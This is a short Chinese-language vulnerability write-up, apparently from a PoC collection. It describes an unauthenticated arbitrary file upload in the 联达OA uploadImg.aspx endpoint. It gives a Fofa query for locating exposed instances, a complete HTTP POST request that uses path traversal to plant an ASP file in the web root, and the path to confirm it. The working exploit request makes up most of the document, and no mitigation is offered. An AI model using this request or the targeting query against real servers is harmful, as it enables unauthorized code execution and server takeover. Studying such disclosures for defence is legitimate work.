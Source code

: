 # 联达OA接口uploadImg.aspx任意文件上传漏洞

联达OA uploadImg.aspx 接口处存在任意文件上传漏洞，未经身份攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## Fofa

```javascript
app="联达OA"
```

## poc

```javascript
POST /Dept_Portal/uploadImg.aspx HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Content-Type: multipart/form-data; boundary=boundary=00content0boundary00
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
 
--00content0boundary00
Content-Disposition: form-data; name="DesignId"
 
1
--00content0boundary00
Content-Disposition: form-data; name="Filedata"; filename="../../../../b.asp"
Content-Type: image/png
 
<% Response.Write("Hello, World") %>
--00content0boundary00--
```

![image-20241021210452916](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410251422669.png)

```
/b.asp
```

![image-20241021210504062](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410251422557.png)
